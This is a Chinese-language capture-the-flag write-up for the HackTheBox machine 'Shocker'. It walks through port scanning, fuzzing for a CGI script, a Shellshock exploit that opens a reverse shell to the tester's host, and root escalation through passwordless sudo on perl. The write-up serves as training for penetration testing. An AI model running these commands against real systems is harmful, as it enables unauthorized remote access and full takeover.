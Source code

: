 # shocker

## 信息收集

```
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-23 02:50 CDT
Nmap scan report for 10.10.10.56
Host is up (0.43s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
53/tcp   filtered domain
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.17 seconds
```

看一下80端的网页。

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-23T07-59-24.881Z.png)

F12也没找到什么内容，这个图片的路径是ip/bug.jpg。

dirsearch有看到一个`/cgi-bin/` 这个一开始没能引起注意，实际上这个路径存在shellshock的入口点。

但如何获取目标`/cgi-bin/user.sh`其实有点碰墙，目前看下来只能跟着官方思路，用dirbuster、gobuster或者其它暴力fuzz的工具，fuzz后缀名为`cgi​, sh​, ​pl​, ​py...`的文件，字典可以用seclists的`Discovery/Web-Content/raft-medium-directories.txt`。

后续的利用有多种方式，考虑OSCP不推荐使用msf的情况，这里选择[PoC脚本](https://exploit-db.com/exploits/34900/)。另外还有一种是[使用nmap的shellshock脚本，以burp监听并修改payload，使用nc反连](https://icode.best/i/75710940057028)。

```
python2 CVE-2014-6271_cgi-bin_revshell.py payload=reverse rhost=10.10.10.56 lhost=10.10.16.2 lport=1337 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> 
10.10.10.56> cd root
/bin/bash: line 10: cd: root: Permission denied

10.10.10.56> cd home
10.10.10.56> ls
shelly

10.10.10.56> cd shelly
10.10.10.56> ls
user.txt
```

这里shell可以直接拿user flag，但是想拿root flag要提权。

检测可以提取的命令，官方WP给的是[这个](https://github.com/rebootuser/LinEnum)

在尝试寻找其它可能的方式时，顺便找到了[一位我关注的HTB工作人员写的针对靶机更详细的分析和WP](https://0xdf.gitlab.io/2021/05/25/htb-shocker.html)。本文WP也会针对他的一些操作进行改进。

这里我准备手动`sudo -l`看一下

```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

找到可以使用perl后，寻找是否可以用perl提取。

```
10.10.10.56> sudo /usr/bin/perl -h

Usage: /usr/bin/perl [switches] [--] [programfile] [arguments]
  -0[octal]         specify record separator (\0, if no argument)
  -a                autosplit mode with -n or -p (splits $_ into @F)
  -C[number/list]   enables the listed Unicode features
  -c                check syntax only (runs BEGIN and CHECK blocks)
  -d[:debugger]     run program under debugger
  -D[number/list]   set debugging flags (argument is a bit mask or alphabets)
  -e program        one line of program (several -e's allowed, omit programfile)
  -E program        like -e, but enables all optional features
  -f                don't do $sitelib/sitecustomize.pl at startup
  -F/pattern/       split() pattern for -a switch (//'s are optional)
  -i[extension]     edit <> files in place (makes backup if extension supplied)
  -Idirectory       specify @INC/#include directory (several -I's allowed)
  -l[octal]         enable line ending processing, specifies line terminator
  -[mM][-]module    execute "use/no module..." before executing 
10.10.10.56> sudo /usr/bin/perl -e 'exec"/bin/bash"'
program
  -n                assume "while (<>) { ... }" loop around program
  -p                assume loop like -n but print line also, like sed
  -s                enable rudimentary parsing for switches after programfile
  -S                look for programfile using PATH environment variable
  -t                enable tainting warnings
  -T                enable tainting checks
  -u                dump core after parsing program
  -U                allow unsafe operations
  -v                print version, patchlevel and license
  -V[:variable]     print configuration summary (or a single Config.pm variable)
  -w                enable many useful warnings
  -W                enable all warnings
  -x[directory]     ignore text before #!perl line (optionally cd to directory)
  -X                disable all warnings
  
Run 'perldoc perl' for more help with Perl.


10.10.10.56> sudo perl -e 'exec "/bin/bash"'
10.10.10.56> whoami
root
```



